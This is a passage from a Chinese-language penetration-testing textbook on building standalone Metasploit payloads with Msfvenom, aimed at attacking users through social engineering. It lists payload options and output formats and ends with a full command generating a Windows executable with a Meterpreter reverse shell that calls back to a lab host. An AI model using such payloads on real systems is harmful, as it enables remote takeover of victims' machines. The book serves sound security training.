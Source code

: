## 使用 Msfvenom 创建独立的有效载荷

在 2011 年，Msfvenom 被添加到 Metasploit 中。在 Msfvenom 之前，工具 Msfpayload 和 Msfencode 可以一起使用，创建多种输出格式的独立编码 Metasploit 有效载荷，如 Windows 可执行文件和 ASP 页面。随着 Msfvenom 的推出，Msfpayload 和 Msfencode 的功能合并到了一个工具中，尽管 Msfpayload 和 Msfencode 仍然包含在 Metasploit 中。要查看 Msfvenom 的帮助页面，请输入**`msfvenom -h`**。

到目前为止，使用 Metasploit 的目标一直是利用目标系统中的漏洞并控制机器。现在我们将做些不同的事情。我们不再依赖缺失的补丁或其他安全问题，而是希望利用一个可能永远无法完全修复的安全问题：用户。Msfvenom 允许你创建独立的有效载荷，在目标系统上运行，试图通过社会工程学攻击（第十一章）或通过将有效载荷上传到一个易受攻击的服务器来利用用户，正如我们将在第八章中看到的那样。当一切都失败时，用户通常是一个突破口。

### 选择有效载荷

要列出所有可用的有效载荷，请输入**`msfvenom -l payloads`**。我们将使用 Metasploit 的 Meterpreter 有效载荷之一，`windows/meterpreter/reverse_tcp`，它提供一个带有 Meterpreter shell 的反向连接。使用`-p`来选择一个有效载荷。

### 设置选项

要查看模块的正确选项，请在选择有效载荷后输入`-o`标志，如示例 4-15 所示。

示例 4-15. Msfvenom 中的选项

```
root@kali:~# **msfvenom -p windows/meterpreter/reverse_tcp -o**
[*] Options for payload/windows/meterpreter/reverse_tcp

    Name      Current Setting  Required  Description
    ----      ---------------  --------  -----------
    EXITFUNC  process          yes       Exit technique: seh, thread, process,
                                           none
    LHOST                      yes       The listen address
    LPORT     4444             yes       The listen port
```

正如预期的那样，我们需要设置`LHOST`，并且`LPORT`默认为 4444。为了练习，将`LPORT`设置为 12345，输入**`LPORT=12345`**。我们还看到`EXITFUNC`，可以将其保留为默认设置。由于这是一个反向连接有效载荷，我们需要设置`LHOST`选项，告诉目标机器连接回我们的 Kali 机器。

### 选择输出格式

现在告诉 Msfvenom 使用哪个输出格式。我们是要从 Windows 可执行文件运行这个有效载荷，还是要制作一个可以上传到我们已经获得写入权限的 Web 服务器的 ASP 文件？要查看所有可用的输出格式，请输入**`msfvenom --help-formats`**。

```
root@kali:~# **msfvenom --help-formats**
Executable formats
    asp, aspx, aspx-exe, dll, elf, exe, exe-only, exe-service, exe-small,
      loop-vbs, macho, msi, msi-nouac, psh, psh-net, vba, vba-exe, vbs, war
Transform formats
    bash, c, csharp, dw, dword, java, js_be, js_le, num, perl, pl, powershell,
      psl, py, python, raw, rb, ruby, sh, vbapplication, vbscript
```

要选择输出格式，请使用`-f`选项并选择所需的格式：

```
msfvenom windows/meterpreter/reverse_tcp LHOST=192.168.20.9 LPORT=12345 -f exe
```
